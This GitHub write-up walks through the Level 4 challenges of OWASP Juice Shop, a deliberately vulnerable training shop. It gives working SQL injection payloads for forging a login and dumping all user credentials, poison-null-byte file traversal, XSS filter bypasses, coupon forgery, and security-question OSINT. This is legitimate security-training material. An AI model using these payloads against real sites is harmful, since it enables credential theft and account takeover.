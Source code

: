 # Level 4

## Christmas Special (Injection)
_Order the Christmas special offer of 2014._

You can find "Christmas special offer of 2014" in [application-configuration.json](misc/application-configuration.json).
By comparing with the list of products (`GET /api/Product`), you can determine that "Christmas special offer of 2014"
must have product ID `10`.

Knowing the ID, just add it to the cart:
```
POST /api/BasketItems/

{"ProductId":10,"BasketId":"1","quantity":1}
```

Finally, finish the order in your browser.

## Easter Egg (Broken Access Control)
_Find the hidden easter egg._

The egg is at `/ftp/eastere.gg`. However, it's protected by a file extension filter:
```
403 Error: Only .md and .pdf files are allowed!
```

The trick is exploiting [CWE-626: Null Byte Interaction Error (Poison Null Byte)](https://cwe.mitre.org/data/definitions/626.html)
> The poison null byte is frequently useful in path traversal attacks by terminating hard-coded extensions that are added to a filename.

Call `GET /ftp/eastere.gg%2500.md` (`%25` is URL encoded `%`):
```
"Congratulations, you found the easter egg!"
- The incredibly funny developers

...

...

...

Oh' wait, this isn't an easter egg at all! It's just a boring text file! The real easter egg can be found here:

L2d1ci9xcmlmL25lci9mYi9zaGFhbC9ndXJsL3V2cS9uYS9ybmZncmUvcnR0L2p2Z3V2YS9ndXIvcm5mZ3JlL3J0dA==

Good luck, egg hunter!
```

## Ephemeral Accountant (Injection)
_Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user._

This is about SQL injection into _Login form_. If you already done the [Database Schema](level3.md#database-schema-injection)
challenge, you know the number of columns and data types of `users` table.
 
```
xxx' UNION SELECT 999, '', 'acc0unt4nt@juice-sh.op', 'password', 'accounting', '', '0.0.0.0', '/assets/public/images/uploads/default.svg', '', 1, '2020-08-15T18:22:49.161Z', '2020-08-15T18:22:49.161Z', null; --
```

The role must be the `accounting`!

## Expired Coupon (Improper Input Validation)
_Successfully redeem an expired campaign coupon code._

The first step is to take a look how coupons work. You can always get a valid coupon on
[Juice shop Twitter](https://twitter.com/owasp_juiceshop).

There's a [coupon for 09/2020](https://twitter.com/owasp_juiceshop/status/1301392070532308992):
```
q:<IrfFb4l
```

Log in, add some items into the basket and make an order using the coupon. The important request is:
```
POST /rest/basket/1/checkout

{"couponData":"cTo8SXJmRmI0bC0xNjAxMTYxMjAwMDAw","orderDetails":{"paymentId":"4","addressId":"3","deliveryMethodId":"1"}}
```

Decode `couponData` (Base64):
```
q:<IrfFb4l-1601161200000
```

There's the coupon code (`q:<IrfFb4l`), and today's timestamp (`1601161200000`).

Now let's look for some expired coupons.
 
At first, I was looking for an older coupon on Twitter but that does not work!
The challenge description states: "redeem an expired **campaign** coupon code".

Searching for `campaign` in source code points to:
```
WMNSDY2019: {
    validOn: 15519996e5,
    discount: 75
},
WMNSDY2020: {validOn: 1583622e6, discount: 60},
WMNSDY2021: {validOn: 1615158e6, discount: 60},
WMNSDY2022: {validOn: 1646694e6, discount: 60},
WMNSDY2023: {validOn: 167823e7, discount: 60},
ORANGE2020: {validOn: 15885468e5, discount: 50},
ORANGE2021: {validOn: 16200828e5, discount: 40},
ORANGE2022: {validOn: 16516188e5, discount: 40},
ORANGE2023: {validOn: 16831548e5, discount: 40}
```

There's `WMNSDY2019` with valid on `15519996e5` --> `1551999600000` -> `Thursday 7. March 2019 23:00:00`.

Ok, let's try to use it in `couponData`. Encode `WMNSDY2019-1551999600000` with Base64:
```
V01OU0RZMjAxOS0xNTUxOTk5NjAwMDAw
```

Intercept the checkout request and modify the coupon data with `V01OU0RZMjAxOS0xNTUxOTk5NjAwMDAw`.

Bingo, the discount is yours!

## Forgotten Developer Backup (Sensitive Data Exposure)
_Access a developer's forgotten backup file._

The same trick as in the [Easter Egg](#easter-egg-broken-access-control) challenge.

Call `GET /ftp/coupons_2013.md.bak%2500.md` and obtain [package.json.bak](misc/package.json.bak).

## Forgotten Sales Backup (Sensitive Data Exposure)
_Access a salesman's forgotten backup file._

The same trick as in the [Easter Egg](#easter-egg-broken-access-control) challenge.

Call `GET /ftp/coupons_2013.md.bak%2500.md`
```
n<MibgC7sn
mNYS#gC7sn
o*IVigC7sn
k#pDlgC7sn
o*I]pgC7sn
n(XRvgC7sn
n(XLtgC7sn
k#*AfgC7sn
q:<IqgC7sn
pEw8ogC7sn
pes[BgC7sn
l}6D$gC7ss
```

## HTTP-Header XSS (XSS)
_Perform a persisted XSS attack with <iframe src="javascript:alert(`xss`)"> through an HTTP header._

The first step is to find a place where an HTTP header is reflected back to the user.

I was suspicious from the beginning about the _Last Login IP_ page (`/#/privacy-security/last-login-ip`). The IP address
is usually taken from HTTP header [X-Forwarded-For](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For).

Next step is to understand how this last login IP is set.
 
Grepping through [main-es2015.js](misc/main-es2015.js):
```
grep 'rest/' misc/main-es2015.js
```

One of the results points to:
```
saveLastLoginIp() {
    return this.http.get(this.hostServer + "/rest/saveLoginIp").pipe(Object(s.a)(t => t), Object(l.a)(t => {
        throw t
    }))
}
```

This method is called during `logout`.

Log in, log out and let's try to manipulate the HTTP headers.

First attempt is obvious:
```
X-Forwarded-For: 1.1.1.1
```

No luck! 

Don't despair, there are more ways how to [spoof an IP address](https://portswigger.net/kb/issues/00400110_spoofable-client-ip-address).

`True-Client-IP` is the correct one. Just add this header to `GET /rest/saveLoginIp` request:
```
True-Client-IP: <iframe src="javascript:alert(`xss`)">
```

If you really want to trigger the XSS (not necessary to solve the challenge):
1. Log in
2. Log out (triggers `GET /rest/saveLoginIp`)
3. Replay `GET /rest/saveLoginIp` with the extra header
4. Log in and go to _Last Login IP_ page

## Leaked Unsafe Product (Sensitive Data Exposure)
_Identify an unsafe product that was removed from the shop and inform the shop which ingredients are dangerous._

Similar to the challenge [Christmas Special](#christmas-special-injection), we can easily identify the product in 
[application-configuration.json](misc/application-configuration.json):
```json
{
    "name": "Rippertuer Special Juice",
    "description": "Contains a magical collection of the rarest fruits gathered from all around the world, like Cherymoya Annona cherimola, Jabuticaba Myrciaria cauliflora, Bael Aegle marmelos... and others, at an unbelievable price! <br/><span style=\"color:red;\">This item has been made unavailable because of lack of safety standards.</span>",
    "price": 16.99,
    "image": "undefined.jpg",
    "keywordsForPastebinDataLeakChallenge": [
      "hueteroneel",
      "eurogium edule"
    ]
}
```

Googling for the rarest fruits is not the solution, they are all safe.
So either google for `Rippertuer Special Juice` and find this paste https://pastebin.com/90dUgd7s
or get the answer from `keywordsForPastebinDataLeakChallenge` (guess this is not intentional though).

Submit `Hueteroneel and Eurogium Edule` into _Customer Feedback_ form.

## Legacy Typosquatting (Vulnerable Components)
_Inform the shop about a typosquatting trick it has been a victim of at least in v6.2.0-SNAPSHOT. (Mention the exact name of the culprit)_

This challenge follows [Forgotten Developer Backup](#forgotten-developer-backup-sensitive-data-exposure).

Inspect [package.json.bak](misc/package.json.bak). It is for `v6.2.0-SNAPSHOT`!

I was hoping to find a malicious NPM package as described in [Malicious packages in npm](https://iamakulov.com/notes/npm-malicious-packages/)
(one of the challenge hints).

I ran `npm audit`(see [package-audit.json](misc/package-audit.json)) but didn't find anything suspicious.

Next, I tried to get something from the [Git history](https://github.com/bkimminich/juice-shop/compare/v6.1.0...v6.2.0) comparing `v6.2.0` to `v6.1.0`
and looking for changes in `package.json`.

All wrong. There is no real vulnerability :-(

Not sure what's the intended way of solving this challenge except for going through the dependencies one by one.

The typo-squatted NPM package is [epilogue-js](https://www.npmjs.com/package/epilogue-js).

Submit `epilogue-js` into the Feedback form.

## Nested Easter Egg (Cryptographic Issues)
_Apply some advanced cryptanalysis to find the real easter egg._

This challenge follows [Easter Egg](#easter-egg-broken-access-control). The goal is to decrypt:
```
L2d1ci9xcmlmL25lci9mYi9zaGFhbC9ndXJsL3V2cS9uYS9ybmZncmUvcnR0L2p2Z3V2YS9ndXIvcm5mZ3JlL3J0dA==
```

This is rather easy.
 
1) Decode `Base64` (https://www.base64decode.org/):
```
/gur/qrif/ner/fb/shaal/gurl/uvq/na/rnfgre/rtt/jvguva/gur/rnfgre/rtt
```

2) Apply [ROT13](https://en.wikipedia.org/wiki/ROT13) cipher (https://rot13.com/):
```
/the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg
```

Call `GET /the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg`

## Poison Null Byte (Improper Input Validation)
_Bypass a security control with a Poison Null Byte to access a file not meant for your eyes._

The solution is described in [Easter Egg](#easter-egg-broken-access-control) challenge (_this was not a standalone
challenge until `v12.0.0`_).

## Reset Bender's Password (Broken Authentication)
_Reset Bender's password via the Forgot Password mechanism with the original answer to his security question._

Bender's security question is:
> Company you first work for as an adult?

[Bender](https://en.wikipedia.org/wiki/Bender_(Futurama)) is a well-known character from the
TV show [Futurama](https://en.wikipedia.org/wiki/Futurama).

The [wiki](https://en.wikipedia.org/wiki/Bender_(Futurama)) lists his occupations as:
- Suicide booth construction worker (formerly)
- Planet Express Bender / Chef

Read more about [suicide booths](https://futurama.fandom.com/wiki/Suicide_Booth):
> Suicide booths were invented somewhere between 2006 and 2008. Since 2008, America's most important brand of suicide booths is Stop'n'Drop. 

The correct answer is `Stop'n'Drop`

## Reset Uvogin's Password (Sensitive Data Exposure)
_Reset Uvogin's password via the Forgot Password mechanism with the original answer to his security question._

Uvogin's security question is:
> Your favorite movie?

This one is rather hard so let's start with some hints:
> People often reuse aliases online. You might be able to find something by looking online for Uvogin's name or slight variations of it based on his unique writing habits

"Unique writing habits" points to [leetspeak](https://en.wikipedia.org/wiki/Leet).
See that all comments from `Uvogin` are like `y0ur f1r3wall needs m0r3 musc13` or `0 st4rs f0r 7h3 h0rr1bl3 s3cur17y`.

Googling for `uv0gin` quickly reveals his [Twitter account](https://twitter.com/uv0gin).
Unfortunately, nothing useful is here.

The catch is that the important tweet was deleted (_I had no idea and had to look into solutions_).
However, you can recover it with a service such as [Wayback Machine](https://web.archive.org/web/20200403193744/https://twitter.com/uv0gin):

![](images/uv0gin-movie.png)

The correct answer is `Silence of the Lambs`

## Server-side XSS Protection (XSS)
_Perform a persisted XSS attack with <iframe src="javascript:alert(`xss`)"> bypassing a server-side security mechanism._

I tried to use this payload in the _Customer Feedback_ form, but the payload was deleted:
```
Hello <iframe src="javascript:alert(`xss`)">
```

Resulting into:
```
Hello
```

Hopefully, it's just a simple string replacement. So let's try:
```
<<iframe src="javascript:alert(`xss`)">iframe src="javascript:alert(`xss`)">
```

Bingo, the nested ```<iframe src="javascript:alert(`xss`)">``` string is deleted resulting into the original payload!

## Steganography (Security through Obscurity)
_Rat out a notorious character hiding in plain sight in the shop. (Mention the exact name of the character)_

I have some experience with steganography, yet I was unable to crack this one without help.
I was missing a hint where to look, otherwise there are too many places.

The character is hidden in one of the carousel images (`/#/about`)
(_the only clue is that just one of the carousel images is a PNG, others are JPGs_).

This is the one:

![](misc/5.png)

Nothing suspicious on the first sight. You need a tool to extract the hidden data.
The usual problem is that you don't know which tool is the right one ...

I tried, with no luck, standard utilities such as:
- `strings`
- `exiftool`
- `identify -verbose`
- `binwalk`
- [Stegsolve](http://www.caesum.com/handbook/stego.htm)
- [Forensically](https://29a.ch/photo-forensics/)

However, the tool for this job is [OpenStego](https://www.openstego.com/index.html). I admit I used it in the past.

With _OpenStego_, you can extract the hidden image:

![](misc/J7RbRp1D5XDM5LINx0TdgeFX_o.png)

The last part is to find out the character name. Googling by the image is no use.
However, I was able to Google this picture with keywords `famous cartoon characters green monster ribs`:

![](misc/pickle-rick.jpg)

Picture comes from [Rick and Morty Season 3 Episode 3 Review](https://www.thecinemaholic.com/rick-and-morty-season-3-episode-3/).
You can read here that the hidden character name is `Pickle Rick`.

## User Credentials (Injection)
_Retrieve a list of all user credentials via SQL Injection._

This challenge follows the [Database Schema](level3.md#database-schema-injection) challenge:
```
GET /rest/products/search?q=Apple'))+UNION+SELECT+username,email,password,role,deluxeToken,lastLoginIp,profileImage,totpSecret,isActive+FROM+Users--
```

The result is in [misc/users.json](misc/users.json).